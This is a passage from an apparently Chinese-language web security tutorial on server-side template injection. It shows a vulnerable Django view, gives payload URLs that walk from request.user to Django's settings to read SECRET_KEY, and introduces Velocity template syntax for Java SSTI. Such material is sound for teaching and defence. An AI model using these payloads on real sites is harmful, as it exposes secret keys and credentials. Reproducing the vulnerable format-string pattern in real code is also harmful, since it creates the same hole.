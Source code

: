 先看存在漏洞的代码：

```
def view(request, *args, **kwargs):
    template = 'Hello {user}, This is your email: ' + request.GET.get('email')
    return HttpResponse(template.format(user=request.user))
```

很明显 email 就是注入点，但是条件被限制的很死，很难执行命令，现在拿到的只有有一个和user有关的变量request.user ，这个时候我们就应该在没有应用源码的情况下去寻找框架本身的属性，看这个空框架有什么属性和类之间的引用。

后来发现Django自带的应用 "admin"（也就是Django自带的后台）的models.py中导入了当前网站的配置文件：

![img](https://img2020.cnblogs.com/blog/1344396/202009/1344396-20200911002243408-1781833415.png)

所以可以通过某种方式，找到Django默认应用admin的model，再通过这个model获取settings对象，进而获取数据库账号密码、Web加密密钥等信息。

payload如下：

```
http://localhost:8000/?email={user.groups.model._meta.app_config.module.admin.settings.SECRET_KEY}

http://localhost:8000/?email={user.user_permissions.model._meta.app_config.module.admin.settings.SECRET_KEY}
```

# Java中的SSTI

java常见的引擎：FreeMarker， velocity

## velocity

（以下板块参照自《[CVE-2019-3396 Confluence Velocity SSTI漏洞浅析](https://xz.aliyun.com/t/8135#toc-2)》）

Apache Velocity是一个基于Java的模板引擎，它提供了一个模板语言去引用由Java代码定义的对象。Velocity是Apache基金会旗下的一个开源软件项目，旨在确保Web应用程序在表示层和业务逻辑层之间的隔离（即MVC设计模式）。

### 基本语法

**语句标识符**

\#用来标识Velocity的脚本语句，包括#set、#if 、#else、#end、#foreach、#end、#include、#parse、#macro等语句。

**变量**

$用来标识一个变量，比如模板文件中为Hello $a，可以获取通过上下文传递的$a

**声明**

set用于声明Velocity脚本变量，变量可以在脚本中声明

```
#set($a ="velocity")
#set($b=1)
#set($arrayName=["1","2"])
```

**注释**

